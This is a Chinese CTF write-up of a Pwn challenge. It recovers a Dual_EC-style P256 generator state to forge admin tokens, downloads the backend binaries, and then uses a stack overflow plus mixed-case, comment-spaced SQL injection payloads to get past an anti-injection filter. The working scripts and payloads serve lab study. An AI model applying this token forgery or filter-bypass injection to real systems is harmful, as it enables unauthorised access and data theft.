









# 面壁计划管理系统2.5

## 题目简述

题目是混合 WebRTC、Web 服务认证、ECC 伪随机生成器和本地二进制交互的综合 Pwn。服务启动时用 P256 曲线上的状态生成器派生 `ApplicationKey`，再用 PBKDF2 生成 `backup/admin` 两级签名 key。`/download` 可在认证后下载文件，`/deepConnect` 会建立 WebRTC 通道：`backup` 身份泄露 `d` 与 `observed`，`admin` 身份能把命令交给后端 `editDatabase`。最终利用链是恢复 `ApplicationKey`，伪造 admin Token，下载二进制并通过 WebRTC 触发 `editDatabase` 的栈溢出和 SQL 注入读取 flag。

## 解题过程

1. 打开附件后可见 `aiortc` 和 `aioice` 两个库文件。先用 `diff` 分别与这两个库的主分支做差异对比后，可以确认漏洞不在库文件内，因此此处不继续展开。**（但编写 EXP 时必须使用附件内提供的库，不要换成 master 分支）**。
2. 再分析给定源码 `app_beta.py`。

```python
if __name__ == "__main__":
    s = "XXX" # Only For Beta Version
    E = keyGenerator(s)
    leakFirst, newState = E.gen()
    E.update(newState)
    leakSecond, newState = E.gen()
    observed = (leakFirst << (2 * 8)) | (leakSecond >> (28 * 8))
    backupStr = f"{E.d}-{observed}"
    BuildPKSK()
    E.update(newState)
    ApplicationKey, _ = E.gen()
    app = web.Application()
    app.on_shutdown.append(on_shutdown)
    app.router.add_get("/", index)
    app.router.add_post("/download", download)
    app.router.add_post("/deepConnect", deepConnect)
    web.run_app(
        app, access_log=None, host='0.0.0.0', port='23333'
    )
```

`main` 函数显示程序先用一个秘密值 `s` 初始化，随后用它推导密钥。这个初始化流程怎么做的？

```python
class keyGenerator(object):
    def __init__(self, seed):
        self.seed = seed
        self.P = P256.G
        # Only For Beta Version
        self.d = 0000000000000000000000000000000000000000000000000000000000000
        e = mod_inv(self.d, P256.q)
        self.Q = e * self.P

    def gen(self, seed=None):
        if seed == None:
            seed = self.seed
        r = (seed * self.P).x
        x = (r * self.Q).x
        return x & (2**(8 * 30) - 1), r

    def update(self, seed):
        self.seed = seed
```

追踪可知该程序使用 ECC P256 曲线，选取了第二个秘密值 `d`，并用它构造公钥 `Q`。返回 `main` 函数后，程序再做两轮状态生成，并将部分生成结果经位运算后保存为 `observed`。再做一轮状态生成，得到用于本次会话的私钥 `ApplicationKey`。

同时程序会通过 KDF 算法基于 `rootKey` 生成 `PKSK`，该过程无外部 secret，直接运行即可拿到结果。

```python
rootKey = "68acba52-7f6f-4274-ab1c-219607dd864e"
PKSK = {"backup":"","admin":""}

def BuildPKSK():
    global PKSK
    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=rootKey.encode(),iterations=480000)
    PKSK["backup"] = kdf.derive(rootKey.encode())
    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=PKSK["backup"],iterations=480000)
    PKSK["admin"] = kdf.derive(PKSK["backup"])
```

至此 WebApplication 初始化完成，路由包含 `/`、`/download`、`/deepConnect` 三条。`/` 无实际利用价值，此处不再分析。`/deepConnect` 的核心逻辑如下：

```python
if isinstance(receiveMessage, str) and receiveMessage.startswith("XXXXXXXXXX"):
    command = message.split("XXXXXXXXXX")[-1]
    if checkAuthRes == "admin":
        outinfo = subprocess.getstatusoutput(("./editDatabase \"" + command + "\""))
        reply = ""
        if outinfo == None:
            reply = "系统无回应"
        else:
            reply = outinfo[-1]
        channel_send(channel, reply.replace('\n',''))
    elif checkAuthRes == "backup":
        reply = f"备份信息如下：{backupStr}"
        channel_send(channel, reply.replace('\n',''))
    else:
        reply = f"权限不足！"
        channel_send(channel, reply.replace('\n',''))
```

简化后可知，`deepConnect` 需要接收以固定前缀字符串开头的输入；另外它还校验身份。`admin` 用户时会将输入交给后端 `editDatabase` 执行并返回输出；`backup` 用户则返回 `d` 和 `observed`。

接着分析 `/download`：

```python
async def download(request):
    query = query_parse(request)
    try:
        params = await request.json()
    except json.decoder.JSONDecodeError:
        content = "非法的访问行为！"
        return web.Response(status=403, content_type="text/html", text=content)
    
    if params == {} or "username" not in params.keys() or "timestamp" not in params.keys() or "Token" not in params.keys():
        content = "非法的访问行为！"
        return web.Response(status=403, content_type="text/html", text=content)
    
    checkAuthRes = checkAuth(params)

    if query == None or 'file' not in query.keys():
        content = "PDC 已经记录了您这次访问行为，普通民众请勿随意访问此系统！"
        return web.Response(status=403, content_type="text/html", text=content)
    
    filename = query.get('file')
    file_dir = '/app/download'
    file_path = os.path.join(file_dir, filename)
    if (filename not in ['editDatabase','ssl.log','app']) or ((filename in ['editDatabase','app']) and (checkAuthRes[0] != 'admin')):
        async with aiofiles.open('/dev/urandom', 'rb') as f:
            content = await f.read(random.randint(2333,23333))
            if content:
                md5Object = hashlib.md5()
                md5Object.update(filename.encode())
                safeFilename = md5Object.hexdigest().upper()
                response = web.Response(
                    content_type='application/octet-stream',
                    headers={'Content-Disposition': 'attachment;filename={}'.format(safeFilename)},
                    body=content)
                return response
            else:
                return web.Response(status=404, content_type="text/html", text="文件为空")
    else:
        if os.path.exists(file_path):
            async with aiofiles.open(file_path, 'rb') as f:
                content = await f.read()
            if content:
                response = web.Response(
                    content_type='application/octet-stream',
                    headers={'Content-Disposition': 'attachment;filename={}'.format(filename)},
                    body=content)
                return response
            else:
                return web.Response(status=404, content_type="text/html", text="文件为空")
        else:
            return web.Response(status=404, content_type="text/html", text="文件未找到")
```

可见该方法接受两类输入：`POST url/path?key=value` 的查询参数，以及请求体中的 JSON 数据。先检查 JSON 是否包含 `username`、`timestamp` 和 `Token` 三个字段，随后交给认证函数处理。

```python
def checkAuth(content):
    timestamp = int(round(time.time()) * 1000)
    if not isinstance(content,dict):
        content = json.loads(content)
    signStringEnc = base64.b64decode(content.pop('Token').encode()).decode()
    keys = sorted(content.keys())
    signString = ""
    for key in keys:
        signString += f"{key}={content[key]}&"
    md5Object = hashlib.md5()
    md5Object.update(PKSK[content["username"]])
    signValue = md5Object.hexdigest().upper()
    signString += signValue
    # Release Version a=ApplicationKey
    a = 00000000000000000000000000000000000000000000000000000000000
    a = a.to_bytes(32, 'big')
    signStringEncServer = encrypt_cbc(signString, a[:16], a[16:32])
    if signStringEncServer == signStringEnc:
        if(timestamp - int(content["timestamp"]) < 600000):
            return (content["username"],json.loads(content["data"]))
        else:
            return ("Hacker","Timeout!")
    else:
        return ("Hacker","Hacker!")
```

认证函数先取当前时间戳，再解析 `Token`，取出其余字段按字典序拼接成 `key=value&` 形式；再拼接对应 `username` 的 key，使用 SM4 进行加密后与原 `Token` 解密结果比对。比对通过后再校验时间戳是否过期。  
回到 `download`，认证通过后从 query 里读取 `file`，拼接到 `/app/download` 形成文件路径；其中 `editDatabase` 与 `app` 仅 `admin` 可访问，`ssl.log` 不受该身份限制。

3. 下一步先尝试下载 `ssl.log`，因此构造脚本抓取目标文件。

```python
url = "http://<TARGET>/download"

if __name__ == "__main__":
    timeStamp = int(round(time.time()) * 1000)
    # ssl.log
    data = {"username": "backup", "timestamp": timeStamp, "Token": ""}
    params = {"file":"ssl.log"}
    res = requests.get(url,params=params,json=data)
    with open("ssl.log","wb") as f:
        f.write(res.content)
        f.close()
```

下载得到的 `ssl.log` 是 TLS key log 格式，内容由多行 `CLIENT_RANDOM <random> <secret>` 组成，可供 Wireshark 解密后续 DTLS/WebRTC 流量。

抓包后可见流量中存在大量冗余，先按 `HTTP` 过滤。  

再根据发现的 IP 重新过滤。  

提取核心流量后加载 `ssl.log` 解密 DTLS。  

解密后可看到返回了 `d` 与 `observed`。

4. 已知 `NIST P-256` 存在 `Dual_EC_DRBG` 后门，可由 `d` 和 `observed` 预测 `ApplicationKey`。以下为复现脚本。

```python
class keyGenerator(object):
    def __init__(self, seed):
        self.seed = seed
        self.P = P256.G
        self.d = 11719814915940862664165027722377288066521783304814624837698954187856701194820
        e = mod_inv(self.d, P256.q)
        self.Q = e * self.P

    def gen(self, seed=None):
        if seed == None:
            seed = self.seed
        r = (seed * self.P).x
        x = (r * self.Q).x
        return x & (2**(8 * 30) - 1), r

    def update(self, seed):
        self.seed = seed

def mod_inv(a, m):
    return pow(a, m-2, m)

def p256_mod_sqrt(z):
    return pow(z, (P256.p + 1) // 4, P256.p)

def valid_point(x_coordinate):
    y_2 = ((x_coordinate**3) - (3 * x_coordinate) + P256.b) % P256.p
    y = p256_mod_sqrt(y_2)

    if y_2 == y**2 % P256.p:
        return y
    else:
        return False

def brute(intercepted, d, Q):
    possible_points = []
    check = intercepted & 0xffff
    bits = 2**16
    for lsb in range(bits):
        output = (lsb << (8 * 30)) | (intercepted >> (8 * 2))
        y = valid_point(output)
        if y:
            try:
                point = Point(output, y, curve=P256)
                s = (d * point).x
                val = (s * Q).x & (2**(8 * 30) - 1)
                possible_points.append(point)
                if check == (val >> (8 * 28)):
                    return val & (2**(8 * 28) - 1), s, possible_points
            except:
                continue
        else:
            continue
    return None, None, None

if __name__ == "__main__":
    seed = ""
    E = keyGenerator(seed)
    _, attacker_state, points = brute(106660164750584597884584943223559625875956141342602527536197888828028899150101, E.d, E.Q)
    ApplicationKey, _ = E.gen(seed=attacker_state)
    print(f"Break Success！ApplicationKey IS {ApplicationKey}")
```

脚本运行成功时会输出 `Break Success! ApplicationKey IS ...`，说明已根据泄露的 `d` 与 `observed` 推回本轮 `ApplicationKey`。

拿到 `ApplicationKey` 后即可构造 `admin` 用户凭据。

5. 用 `admin` 凭据继续下载 `app` 与 `editDatabase`：

```python
 None
url = "http://<TARGET>/download"
rootKey = "68acba52-7f6f-4274-ab1c-219607dd864e"
PKSK = {"backup":"","admin":""}

def BuildPKSK():
    global PKSK
    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=rootKey.encode(),iterations=480000)
    PKSK["backup"] = kdf.derive(rootKey.encode())
    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=PKSK["backup"],iterations=480000)
    PKSK["admin"] = kdf.derive(PKSK["backup"])

def buildAuth(content):
    content = {
        "username": "admin",
        "timestamp": str(int(round(time.time()) * 1000)),
        "data": json.dumps(content)
    }
    keys = sorted(content.keys())
    signString = ""
    for key in keys:
        signString += f"{key}={content[key]}&"
    md5Object = hashlib.md5()
    print(PKSK)
    md5Object.update(PKSK[content["username"]])
    signValue = md5Object.hexdigest().upper()
    signString += signValue
    a = 1008956236999729824676341145279672622966475920266132279806853595614877312
    a = a.to_bytes(32, 'big')
    signStringEnc = encrypt_cbc(signString, a[:16], a[16:32])
    content["Token"] = base64.b64encode(signStringEnc.encode()).decode()
    # print(json.dumps(content))
    return content


if __name__ == "__main__":
    BuildPKSK()
    timeStamp = int(round(time.time()) * 1000)
    # app
    data = buildAuth({})
    params = {"file":"app"}
    res = requests.post(url,params=params,json=data)
    with open("app","wb") as f:
        f.write(res.content)
        f.close()

    # editDatabase
    data = buildAuth({})
    params = {"file":"editDatabase"}
    res = requests.post(url,params=params,json=data)
    with open("editDatabase","wb") as f:
        f.write(res.content)
        f.close()
```



6. 先分析 `app`，用 IDA 反汇编。  
  
7. 可以看到 `app` 中出现了大量 py 相关标识，容易联想到直接用 python 逆向工具，但这个二进制并非 pyinstaller 打包，因此不能按 py 反编译。实际上只需了解 `deepConnect` 的基本逻辑即可，**不需要**继续逆向 `app`。通过流量也能确认 client 与 server 采用标准 WebRTC 通道通信，因此实际只需实现标准 WebRTC 通道与其交互。
8. 接下来分析 `editDatabase`，同样使用 IDA：  
  
  找到 UPX 打包壳并识别版本号后，用 UPX 解包。  
  
  反编译结果基本正常，随后做调试发现反调试逻辑，先绕过反调试后继续。  
  
  该反调试可轻松绕过，绕过方法在此不再展开。  
  漏洞点位于：  
9. 
  发现存在栈溢出，且程序未开启 canary 保护。  
  checksec 结果确认未开启 canary，因此栈溢出可用于控制后续执行路径。
10. 漏洞点虽然明确，但 `editDatabase` 不能被反复交互，直接起 shell 意义不大。再看其逻辑可知该程序是数据库交互端，因此可能 flag 就在数据库中。main 提供增删改接口；函数列表里实际有查表功能。  
    进一步查看 `check` 函数发现存在一个 **SQL 注入点**。  
  
11. 最终思路是先写一个 WebRTC 客户端，通过身份认证后用 admin 身份建立 RTC 通道，拿到与 `editDatabase` 的交互能力，向其发送 payload，通过栈溢出触发 query 分支，构造 SQL 注入查询表并查找 flag。这里还需处理 anti-injection。  
   anti-injection 会检查 `DROP`、`SELECT`、`INSERT`、`DELETE`、`UPDATE`、`FROM`、`WHERE` 及其小写形式，以及 `=`、`--`、反斜杠、括号、逗号和空格等字符，因此 payload 需要混合大小写并用注释绕过空格。
12. 绕过关键字大小写、用注释绕过空格，再用 `Where` 进行注释绕过：  
    Check TablePayload: `xx';SeLeCt/**/*/**/FroM/**/[secret]/**/WhErE/**/id=1||'\x00`  
    Check FlagPayload: `xx';SeLeCt/**/*/**/FroM/**/sqlite_master/**/WhErE/**/type/**/=/**/'table'||'\x00`

## 方法总结

- 核心技巧：从 `backup` 泄露的 ECC 状态恢复 `ApplicationKey`，伪造 `admin` 认证，再通过 WebRTC 通道攻击后端二进制。
- 识别信号：服务把 PRNG 中间状态、签名 key 派生、下载接口和 RTC 命令通道组合在一起时，要先理清认证材料如何从低权限信息升级为高权限 Token。
- 复用要点：综合题不要过早陷入附件库 diff；本题漏洞主线在业务源码和后端 `editDatabase`，最终 payload 还要同时绕过 anti-injection 和二进制交互限制。
